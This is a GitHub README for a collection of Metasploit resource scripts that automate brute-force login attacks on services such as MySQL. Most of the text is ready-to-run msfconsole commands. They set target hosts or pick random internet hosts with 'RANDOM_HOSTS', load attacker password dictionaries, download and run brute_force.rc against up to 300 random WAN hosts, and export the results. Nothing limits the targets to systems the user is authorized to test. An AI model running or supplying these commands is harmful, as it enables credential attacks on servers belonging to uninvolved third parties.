 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read this article about Resource Files scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG THIS KIND OF RC SCRIPTS

![pic](http://i67.tinypic.com/2iu59g7.png)
Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Many of the this brute force resource scripts are written to accept **user inputs** (setg global variables).<br />This means that users can run this kind of resource scripts in 3 diferent ways:

Execute resource script

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

**Adicionally to the described settings, we can also combine diferent configurations at runtime execution.**<br />

---

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º run brute_force.rc resource script to search hosts on WAN (**limmit the search to 300**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

<br />

Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

<br /><br />


Instruct rc scripts to export **redteam** workspace database to a local file **/root/database_gfvte.xml** (optional)<br />
**If you wish to store scan results, then execute this command insted of the 3º step described above**<br />

      msfconsole -q -x 'setg SAVE_DB true;setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

This database.xml file can now be 'imported' to your default workspace with the follow command:

      sudo msfconsole -q -x 'db_import /root/database_gfvte.xml'

### Suspicious Shell Activity RedTeam @2019

<br />

